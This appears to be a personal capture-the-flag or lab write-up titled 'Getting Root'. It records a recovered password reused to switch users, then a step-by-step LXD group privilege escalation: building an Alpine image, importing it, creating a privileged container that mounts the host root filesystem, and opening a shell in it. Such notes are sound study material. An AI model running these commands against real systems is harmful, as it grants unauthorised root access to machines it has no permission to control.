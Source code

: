 # Getting Root

![[Pasted image 20211213134721.png]]

![[Pasted image 20211213134932.png]]

Pass: admin@it

Nothing interesting
![[Pasted image 20211213142509.png]]

try using the password to auth like user ash

LXD PRIV ESC 
![[Pasted image 20211213142627.png]]

### Exploit : https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

```bash
sudo su
#Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
sudo go get -d -v github.com/lxc/distrobuilder
#Make distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8

```


Then, upload to the vulnerable server the files **lxd.tar.xz** and **rootfs.squashfs**
![[Pasted image 20211213152710.png]]

Add the image:
```bash
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

lxc image list #You can see your new imported image
```
![[Pasted image 20211213152756.png]]

```bash
lxd init
```

```bash
lxc init alpine privesc -c security.privileged=true
```

```bash
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

```bash
lxc start privesc
```

```bash
lxc exec privesc /bin/sh
```

![[Pasted image 20211213153417.png]]

